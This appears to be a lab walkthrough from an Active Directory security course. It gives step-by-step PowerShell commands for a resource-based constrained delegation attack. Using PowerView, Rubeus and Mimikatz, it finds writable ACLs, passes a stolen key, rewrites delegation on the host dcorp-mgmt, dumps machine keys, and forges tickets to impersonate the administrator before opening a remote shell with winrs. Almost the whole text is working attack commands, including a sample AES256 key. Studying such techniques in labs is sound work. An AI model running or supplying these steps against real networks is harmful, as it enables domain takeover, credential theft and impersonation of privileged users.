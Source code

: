**Local admin privileges to the foothold/attacker machine are required due to the need of a machine hash**

Find that a compromised user has `Write` permissions over a machine (PowerView) 
```powershell
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

We see that `ciadmin` has `GenericWrite` over `dcorp-mgmt`

Shell as user with `Write` permissions - `ciadmin` - OPtH
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:ciadmin /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

As `ciadmin`, add your foothold machine that you have local admin privileges to  the`PrincipalsAllowedToDelegateToAccount` (PowerView + AD Module)
```powershell
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-student548$' -Verbose

$comps = 'dcorp-student548$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```

Confirm RBCD configuration
```powershell
Get-DomainRBCD
```

Obtain foothold/attacker machine machine hash (`dcorp-student548$`)
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

Obtain ticket as machine account (`dcorp-student548$`) to access "second hop machine" (`dcorp-mgmt`)  as **ANY** user in the domain.
```powershell
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```

```powershell
winrs -r:dcorp-mgmt cmd.exe
```